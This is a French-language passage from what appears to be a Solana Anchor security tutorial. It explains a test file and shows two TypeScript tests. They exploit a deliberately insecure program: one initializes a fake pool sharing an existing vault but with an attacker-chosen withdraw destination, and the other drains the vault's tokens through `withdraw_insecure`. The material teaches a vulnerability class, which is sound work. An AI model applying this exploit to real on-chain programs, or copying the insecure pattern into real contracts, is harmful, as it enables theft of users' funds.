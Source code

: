 Le fichier de test inclut le code pour appeler l'instruction `initialize_pool` et ensuite émettre 100 jetons vers le compte `vault`. Il inclut également un test pour appeler l'instruction `withdraw_insecure` en utilisant le `withdraw_destination` prévu. Cela montre que les instructions peuvent être utilisées comme prévu.

Ensuite, il y a deux tests supplémentaires pour montrer comment les instructions sont vulnérables à l'exploitation.

Le premier test appelle l'instruction `initialize_pool` pour créer un compte "factice" `pool` en utilisant le même compte `vault`, mais avec un `withdraw_destination` différent.

Le deuxième test effectue un retrait de ce pool, volant des fonds du `vault`.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```

